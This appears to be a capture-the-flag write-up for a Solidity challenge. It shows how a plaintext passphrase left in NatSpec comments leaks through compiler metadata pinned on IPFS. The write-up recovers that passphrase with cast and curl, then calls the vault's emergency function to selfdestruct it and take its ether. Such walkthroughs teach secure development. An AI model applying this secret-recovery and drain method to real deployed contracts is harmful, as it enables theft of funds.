





# MetaVault


---
<p align="center">
    
</p>

> 10<sup>th</sup> May 2024 \
Prepared By: perrythepwner \
Challenge Author(s): perrythepwner \
Difficulty: <font color=green>Easy</font>


# Synopsis

- Although this challenge aims to be entry level, it focuses on a quite overlooked (but at the same time important) aspect: the self verification of smart contracts and how "secrets" can sometimes be hidden in the metadata.

## Description

- The Ministry of Defense released the open source of "MetaVault", the country's Ethereum reserves. It's said that they keeps secrets in a meta-location, so that no one can know them.

## Skills Required

- JSON RPC interaction.

## Skills Learned

- Smart Contract metadata.
- IPFS.
- Verifying Smart Contracts.
- Retrieve sensitive information from compilation metadata. 

## Analyzing the source code

Let's examine the provided source code.

**Setup.sol**
```solidity
pragma solidity 0.8.25;

import {MetaVault} from "./MetaVault.sol";

contract Setup {
    MetaVault public immutable TARGET;

    constructor() payable {
        TARGET = new MetaVault();
        TARGET.deposit{value: 100 ether}();
    }

    function isSolved() public view returns (bool) {
        return address(TARGET).balance == 0;
    }
}
```

This setup will deploy the challenge instance for us. It appears that a `TARGET` contract will be deployed with `100 ethers` in it. To solve the challenge, we must drain the contract.

**Recruitment.sol**
```solidity
// SPDX-License-Identifier: MoD-Internal-v1.0
pragma solidity 0.8.25;

/**
 * @title MetaVault
 * @author Ministry of Defense
 * @notice MoD (Ministry of Defense) Smart Contract storing the country's ETH reserves.
 */
contract MetaVault {
    /**
     * @notice Keccak256 hashed secret passphrase to enable emergency mode.
     * @dev plaintext secret: [REDACTED] 
     * @dev The secret will be stripped before open sourcing the code. Comments are not compiled anyway.
     */ 
    bytes32 constant private VAULT_SECRET_K256 = 0x42c10591ced4987005f70d29b498348ecc8ab18dd28c5b93db931375ca826b5e; 
    
    event Deposit(
        address indexed _from,
        uint256 indexed _value,
        uint256 indexed _updatedBalance
    );
    event FailedLoginAttempt(
        address indexed _from,
        string  indexed _attempt,
        bytes32 indexed _hashedAttempt
    );
    event EmergencyMode(
        address indexed _by,
        address indexed _fundsDestination
    ); 

    /**
     * @dev Retrieves the current ETH balance of the vault.
     * @return balance of the vault in wei.
     */
    function getVaultBalance() public view returns (uint256) {
        return address(this).balance;
    }

    /**
     * @notice Deposit function to receive ETH deposits.
     * @dev emits a Deposit event with the depositor, the value deposited and the updated balance after deposit.
     */
    function deposit() public payable {
        emit Deposit(
            msg.sender,
            msg.value,
            getVaultBalance()
        );        
    }

    /**
     * @notice Function to fire the emergency mode by selfdestructing the contract and transfering the funds away.
     * @param _secret The secret passphrase required to activate emergency mode.
     * @dev The secret is shared only to MoD devs.
     */
    function emergency(string memory _secret) external {
        bytes32 attempt_k256 = keccak256(bytes(_secret));
        if (attempt_k256 == VAULT_SECRET_K256) {
            emit EmergencyMode(msg.sender, msg.sender);
            selfdestruct(payable(msg.sender));
        } else {
            emit FailedLoginAttempt(msg.sender, _secret, attempt_k256);
        }
    }
}
```
We are presented with a Vault contract, developed by the "Ministry of Defense" which aims to securely store national Ethereum assets.  
The contract is quite verbose due to the [NatSpec](https://docs.soliditylang.org/en/latest/natspec-format.html), but essentially converges to two functionalities:
1) The possibility of depositing funds.  
2) Emergency mode, which can only be activated by those who know a secret passphrase, which hash Keccak256 matches the one hardcoded in the contract.  

We immediately understand that we will probably have to find a way to have the secret in hand to be able to [`selfdestruct()`](https://www.alchemy.com/overviews/selfdestruct-solidity) the contract.

## Hardcoded secret? 🤔

Looking at how the hash we need to obtain is declared, we notice how it is not possible to modify it, given that there is no storage access for that variable and it is mostly declared as `constant` and `private`.  
However, one very curious thing catches our eye: the [NatSpec](https://docs.soliditylang.org/en/latest/natspec-format.html) of this state variable.
```solidity
    /**
     * @notice Keccak256 hashed secret passphrase to enable emergency mode.
     * @dev plaintext secret: [REDACTED] 
     * @dev The secret will be stripped before open sourcing the code. Comments are not compiled anyway.
     */ 
```
What is that? Why would someone in charge of such an important task share to his developers a secret in plain text in the code??  
The assumption was certainly made upon the fact that, the code once it gets compiled and deployed in the blockchain, comments will not be included in the bytecode; thus stating that they will only worry about removing the secret when they have to publish the source code.  
Terrible OPSEC! What could happen if the internal code was leaked? What could happen if…even worse, the comment was saved somewhere and published without realizing it?  
Doubts are starting to arise, but a hint in the frontend of the platform gives us some direction.



Said by the developers, the code was compiled with the metadata, a fairly common practice for anyone who wants to verify their smart contracts.  
But, what really is metadata in smart contracts?

## Smart Contracts Metadata
Based on [Solidity latest Documentation](https://docs.soliditylang.org/en/latest/metadata.html), Metadata informations are nothing more than additional bytes, CBOR-encoded, append to the end of the bytecode to be easily recoverable. The compiler automatically generates these informations (unless otherwise specified) in a JSON file, which includes:
- Compiler Version
- Compiler Settings
- Contract ABI
- *Path of the compiled files*
- ***NatSpec Documentation***

Wait, what?  
The path to the file on my PC? Even the NatSpec?  
Absolutely yes! And we can immediately verify this using [that](https://docs.soliditylang.org/en/latest/natspec-format.html) example contract of the NatSpec documentation.  
Rather than opening it in Remix IDE, we prefer to tinker around locally by simply using `solc`, the Solidity compiler. We go to the `/tmp` directory, use our favorite text editor to copy and paste the code and save the file as `MetadataTest.sol`. Now all we have to do is compile it, but before doing this we read from the manual that we can easily read the metadata of a contract with the `--metadata` flag. Simple as that:
```sh
$ solc --metadata /tmp/MetadataTest.sol

======= MetadataTest.sol:KumquatTree =======
Metadata:
{"compiler":{"version":"0.8.25+commit.b61c2a91"},"language":"Solidity","output":{"abi":[{"inputs":[{"internalType":"uint256","name":"rings","type":"uint256"}],"name":"age","outputs":[{"internalType":"uint256","name":"","type":"uint256"}],"stateMutability":"pure","type":"function"},{"inputs":[],"name":"leaves","outputs":[{"internalType":"uint256","name":"","type":"uint256"}],"stateMutability":"pure","type":"function"}],"devdoc":{"kind":"dev","methods":{"age(uint256)":{"details":"The Alexandr N. Tetearing algorithm could increase precision","params":{"rings":"The number of rings from dendrochronological sample"},"returns":{"_0":"Age in years, rounded up for partial years"}},"leaves()":{"details":"Returns only a fixed number."}},"version":1},"userdoc":{"kind":"user","methods":{"age(uint256)":{"notice":"Calculate tree age in years, rounded up, for live trees"},"leaves()":{"notice":"Return the amount of leaves that this specific kind of tree has"}},"version":1}},"settings":{"compilationTarget":{"tmp/MetadataTest.sol":"KumquatTree"},"evmVersion":"cancun","libraries":{},"metadata":{"bytecodeHash":"ipfs"},"optimizer":{"enabled":false,"runs":200},"remappings":[]},"sources":{"MetadataTest.sol":{"keccak256":"0x1ecb92832d772095e8f70b536826a13224d8ebd8d506556007448505faf58118","license":"GPL-3.0","urls":["bzz-raw://2abff74bf1d86d205c14a6d144e04e7abf65e3e0a090ac0160815c0828300836","dweb:/ipfs/QmT5r1oLssy1MHKH1JBsoPSCUSe7qqvGEXumdfFLUyc39K"]}},"version":1}

======= MetadataTest.sol:Plant =======
[...]
```
We'll get a lot of info! Which isn't really readable, let's store that information in some files using the `--output-dir` flag and analyze it using `jq`.

```sh
$ solc --metadata /tmp/MetadataTest.sol --output-dir metadata
Compiler run successful. Artifact(s) can be found in directory "metadata".

$ cd metadata/ &&  ls -la
total 20
drwxr-xr-x 2 root root 4096 May  9 23:25 .
drwxrwxrwt 1 root root 4096 May  9 23:25 ..
-rw-r--r-- 1 root root 1461 May  9 23:25 KumquatTree_meta.json
-rw-r--r-- 1 root root  812 May  9 23:25 Plant_meta.json
-rw-r--r-- 1 root root 1701 May  9 23:25 Tree_meta.json

$ cat Tree_meta.json | jq   # let's read that for example
{
  "compiler": {
    "version": "0.8.25+commit.b61c2a91"
  },
  "language": "Solidity",
  "output": {
    "abi": [
      [...]
    ],
    "devdoc": {
      "author": "Larry A. Gardner",
      "custom:experimental": "This is an experimental contract.",
      "details": "All function calls are currently implemented without side effects",
      [...]
    }
  "settings": {
    "compilationTarget": {
      "tmp/MetadataTest.sol": "Tree"
    },
    [...]
  "sources": {
    "tmp/MetadataTest.sol": {
      "keccak256": "0x1ecb92832d772095e8f70b536826a13224d8ebd8d506556007448505faf58118",
      "license": "GPL-3.0",
      "urls": [
        "bzz-raw://2abff74bf1d86d205c14a6d144e04e7abf65e3e0a090ac0160815c0828300836",
        "dweb:/ipfs/QmT5r1oLssy1MHKH1JBsoPSCUSe7qqvGEXumdfFLUyc39K"
      ]
    }
  },
  "version": 1
}
```
Wow! It's really like that. Notice the `tmp/MetadataTest.sol` field under `"sources"`, which could potentially leak sensitive information about our system to the public.  
Also, note the appending urls. That are the IPFS hashes of the source code, which is useful to verify that our local code matches the one deployed on the blockchain.  
To be clearer, the flow of verifying a smart contract source code will be the following:

--> Get the bytecode (always avaiable)  
--> Get the contract metadata (most likely it'll be there)  
--> CBOR decode, get the keccak256 hash and verify the match with the local files...  
OR   
--> CBOR decode, get the IPFS hash of the *JSON metadata file*  
--> Hopefully it's pinned on IPFS, get the IPFS hash of the *contract source code*  
--> Verify match.  

> Further readings:  
> * https://docs.sourcify.dev/blog/verify-contracts-perfectly/  
> * https://www.rareskills.io/post/solidity-metadata


But let's get back on track! Did you also noticed something event more interesting for us?  
Yeah, the NatSpec! What if they compiled the source code (and therefore generated metadata) before stripping the secret and accidentally leaking it here?  
That's possible. That's what they said.  

> @dev The secret will be stripped before open sourcing the code. [...]

Before open sourcing the code, meaning that they compiled it with the secret!

> [...] Comments are not compiled anyway.

You fool. Wrong assumption.


So, our goal now is to retrieve the bytecode, then the IPFS hash, check the avaiability on a IPFS gateway and finally read the leaked secret in the NatSpec. 

## Exploitation

Upon launching the challenge, we will encounter two sockets. One socket serves as the challenge handler, while the other serves as the RPC endpoint. Upon connecting to the challenge handler, we will be presented with three options:

```shell
$ nc 0.0.0.0 1338
1 - Connection information
2 - Restart Instance
3 - Get flag
action?
```

Before proceeding, it's essential to launch the game instance, which will provide us with the necessary information to establish a connection.

```shell
$ nc 0.0.0.0 1338
1 - Connection information
2 - Restart Instance
3 - Get flag
action? 1

Private key     :  0x1e7ed27cf8804c820d69d04b69745634b54a989112752dd4ddd540e4dd6c1bc5
Address         :  0x18Bdd72777BccB5bCb5590bE6c947B68B38066c6
Target contract :  0x406607888e97f1f4F1cb225fC002DF46b50a85D0
Setup contract  :  0xC8333ab86099e2cDe792F81C4BA830CCb17D9B68
```

That's fundamental for our first step, that is to recover the bytecode of the deployed code.  
To do so, we can use [`cast`](https://book.getfoundry.sh/cast/) tool to read the raw deployment transaction, or even better, use the `cast code` subcommand to get the runtime bytecode.  

```sh
$ cast code $TARGET --rpc-url $RPC
0x60806040...snip...0033
``` 
Easy. Now we need to decode the metadata. In order to do so, a lot of tools comes handy, but maybe the easier one is the [Sourcify Playground](https://playground.sourcify.dev/) which is also mentioned in the Solidity documentation.


Here's our IPFS hash! Sourcify can't already fetch the IPFS gateway for us, because the `ipfs.io` domain isn't avaible anymore... that comes a challenge to the player.

At this point, we can really use any IPFS gateway. A list of live functioning gateways can be found here: https://ipfs.github.io/public-gateway-checker/

Example with Pinata gateway:  

**UI**


**CLI**
```sh
$ curl https://gateway.pinata.cloud/ipfs/QmX9L9Q9QkM3ytQ1Wk3jKAqNDXYhK8RFQHcfq8QXyfffkN | jq
[...]
      "stateVariables": {
        "VAULT_SECRET_K256": {
          "details": "plaintext secret: WeLoveNukaCola!!MoD-2024 The secret will be stripped before open sourcing the code. Comments are not compiled anyway."
        }
      }
[...]
```

Here's the secret :)

```
WeLoveNukaCola!!MoD-2024
```

Also, note the leaked path:


All we have to do now is DESTROY the vault. That's why demolition skills were required in the onboarding challenge ;)

```sh
$ cast send $TARGET 'emergency(string)' 'WeLoveNukaCola!!MoD-2024' --rpc-url $RPC --private-key $PVK
```

### Bonus

If you'll lucky enough, you'll be able to solve the challenge only by using the following UI https://solc-metadata.ardis.lu/ !
Which partially explains the "Easy" tag in this challenge.

---
> HTB{wh0_tf_sh4r3s_s3cr3ts_1n_th3_c0mm3nts}


